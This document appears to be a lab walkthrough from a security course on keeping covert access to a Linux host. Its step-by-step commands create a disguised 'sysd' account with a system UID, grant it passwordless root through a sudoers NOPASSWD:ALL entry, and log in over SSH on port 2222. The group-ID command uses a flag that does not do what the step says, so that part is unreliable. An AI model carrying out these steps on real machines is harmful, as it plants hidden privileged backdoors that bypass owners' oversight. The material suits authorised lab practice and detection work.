 # Advanced Bash - Owning the System

## Step 1: Shadow People
    1.	Create a secret user named sysd. Make sure this user doesn't have a home folder created:
                • sudo useradd sysd

    2.	Give your secret user a password:
                • sudo passwd sysd

    3.	Give your secret user a system UID < 1000:
                • sudo usermod -u 400 sysd

    4.	Give your secret user the same GID:
                • sudo groupmod -u 400 sysd

    5.	Give your secret user full sudo access without the need for a password:
                • sudo visudo

After executing the above command, you will be brought into the sudoers file to edit as seen in photo below.
![see photo](/images/picture1.png)

    Then we can add the following code in user privilege specification after root entry:
                • sysd ALL=(ALL:ALL) NOPASSWD:ALL
![see photo](/images/Picture2.png)  

    Test that sudo access works without your password: 
            • su sysd
            Then
            • sudo -l
![see photo](/images/Picture3.png)

## Step 2: Smooth Sailing

    1.	Edit the sshd_config file:
        • sudo nano /etc/ssh/sshd_config
![see photo](/images/Picture4.png)

## Step 3: Testing Your Configuration Update

    1. Restart the SSH service:
        • service ssh restart
    2. Exit the root account:
        • exit
    3. SSH to the target machine using your sysd account and port 2222:
        • ssh sysd@192.168.6.105 -p 2222
        